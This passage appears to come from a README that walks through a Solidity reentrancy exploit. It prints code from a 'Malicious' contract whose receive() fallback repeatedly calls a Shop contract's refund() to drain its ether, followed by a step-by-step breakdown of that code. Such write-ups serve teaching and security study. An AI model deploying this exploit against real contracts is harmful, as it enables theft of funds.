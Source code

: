 ```solidity
    function refund() public {
        shop.refund(0, 1);
    }

    function withdraw() public {
        require(msg.sender == _owner, "Not the owner");
        (bool sent, ) = _owner.call.value(address(this).balance)("");
        require(sent, "Failed to send Ether");
    }

    receive() external payable {
        if (address(shop).balance >= 5 ether) {
            shop.refund(0, 1);
        }
    }
}
```
### Breakdown of the Malicious Contract
1. **State Variables**
- `Shop public shop`:

    - This is a reference to the Shop contract, allowing the [Malicious](./contract/Malicious.sol) contract to interact with it.
    - It is set during the contract's construction, linking the [Malicious](./contract/Malicious.sol) contract to a specific instance of the Shop contract.  

- `address private _owner`:

    - This stores the address of the owner of the [Malicious](./contract/Malicious.sol) contract.
    - The `_owner` is set to the deployer's address in the constructor and is used to restrict access to certain functions.  
  
2. **Constructor**
```solidity
constructor(address shopAddress) public {
    shop = Shop(shopAddress);
    _owner = msg.sender;
}
```

- **Purpose**:

    - Initializes the [Malicious](./contract/Malicious.sol) contract by setting the shop reference to the Shop contract's address.
    - Sets the `_owner` to the address of the contract deployer (`msg.sender`).  

- **Operation**:

    - The constructor is called once when the contract is deployed.
    - It ensures that the contract is linked to the correct [Shop](./contract/Shop.sol) contract for exploitation.
  
3. `buy()` **Function**
```solidity
function buy(uint item, uint quantity) public payable {
    shop.buy.value(msg.value)(item, quantity);
}
```
- **Purpose**:
